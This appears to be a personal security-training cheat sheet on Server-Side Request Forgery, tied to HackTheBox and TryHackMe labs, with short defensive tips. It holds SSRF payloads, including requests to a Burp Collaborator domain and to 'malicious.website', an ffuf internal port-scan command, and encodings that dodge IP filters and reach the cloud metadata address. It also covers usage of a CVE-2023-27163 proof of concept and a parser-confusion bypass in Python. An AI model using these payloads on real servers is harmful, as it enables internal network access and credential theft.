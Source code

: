 # Server-Side Request Forgery (SSRF)

<div class="row row-cols-lg-2"><div>

#### Common SSRF

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

The most common example of a SSRF is to access a remote server. This may expose internal headers, be exploited for a DoS, or further exploited to map and access internal services.

```text!
GET /?download=https://<burp suite collaborator domain>
```

#### SSRF With Redirection

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

While mainly used to bypass filters, we can use HTML or PHP redirections. Python "requests" doesn't follow redirections by default.

```html!
<!-- input: /?download=https://example.com, returns 127.0.0.1 -->
<?php header('Location: http://127.0.0.1/'); ?>
```

</div><div>

#### Exploit other protocols 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

A few protocols aside from HTTPS may yield results.

* `ftp://` to connect to a FTP server
* `file://some/file/on/the/target` when supported ([files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md))

<br>

#### Access Internal Services 🗺️

[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

You may be able to query internal IPs or internal websites. Aside from localhost, make sure to test interesting IPs in cloud environments.

<br>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div></div>

<hr class="sep-both">

## SSRF Filter Bypass

<div class="row row-cols-lg-2"><div>

#### SSRF Filter Bypass — Starting with

A filtering "starting with" without a trailing slash can be bypassed:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
* `https://example.com#malicious.website`
* `https://example.com?malicious.website`
* `https://example.com/&malicious.website`
* `https://example.com/;malicious.website`

🛡️ Add a trailing slash to any starting with rule.
</div><div>

#### SSRF Filter Bypass — IP Filtering

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

There are multiple representations of `127.0.0.1` or `169.254.169.254`.

*  `0`, `00`, `000[...]0`, `0.0.0.0` (any IP, which may be localhost)
* `2130706433` (decimal), `017700000001` (octal), `0x7f000001` (hex)
* `127.1` (IP shortening), `127.00[...]00.1` (IP prolonging)
* `::1`, `::ffff:127.0.0.1` (IPV6)

Common domains for convenience: [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), [firefox.fr](http://firefox.fr/).

For all IPs, use: [rebinder](https://lock.cmpxchg8b.com/rebinder.html) with two times the same IP.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # sent to listener URL
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:fport 
```
</div><div>

#### The GOAT Way 🐐

In Python, the `requests` module uses a old version of URLLIB. The following URL `"https://example.com\@@127.0.0.1/../flag"` is interpreted differently between `requests` and `urllib` ([src](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)):

* `host=127.0.0.1\@@example.com path=/../flag` with URLLIB3+
* `host=127.0.0.1 path=/@@example.com/../flag` with URLLIB3

With this trick, you can bypass this dummy code:

```py
URL = "https://127.0.0.1\@@example.com/../flag"
hostname = urllib.parse.urlparse(URL)
# Will verify 127.0.0.1\@@example.com
if hardened_check_on_hostname(hostname):
    raise Exception()
# Will fetch 127.0.0.1/flag
print(requests.get(URL).text)
```

📚 This code is still vulnerable to DNS rebinding.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```py
ip = socket.gethostbyname("example.com") # extracted from input
ip = ipaddress.ip_address(ip)
if ip in ipaddress.ip_network('127.0.0.0/8'): # check others!!!
    return False
if ipaddress.ip_address(ip).is_loopback:
    return False # only check if 127.0.0.1
```
</div><div>
</div></div>